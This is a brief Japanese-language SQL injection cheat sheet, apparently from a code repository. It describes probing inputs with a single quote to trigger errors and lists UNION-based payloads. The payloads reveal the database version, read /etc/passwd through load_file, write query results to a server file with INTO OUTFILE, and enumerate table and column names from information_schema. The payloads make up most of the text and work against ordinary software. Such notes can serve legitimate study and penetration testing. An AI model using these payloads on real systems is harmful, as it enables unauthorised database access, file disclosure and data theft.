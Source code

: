 # SQLi

## 検証方法

* 入力値に`'`を入力してエラーの有無を検証
* エラーが帰らない場合もある。
* 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。

## サンプル

* `' union select version() ; #` でdbのバージョン表示 
* `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
* `' union select column_name from table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
* `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
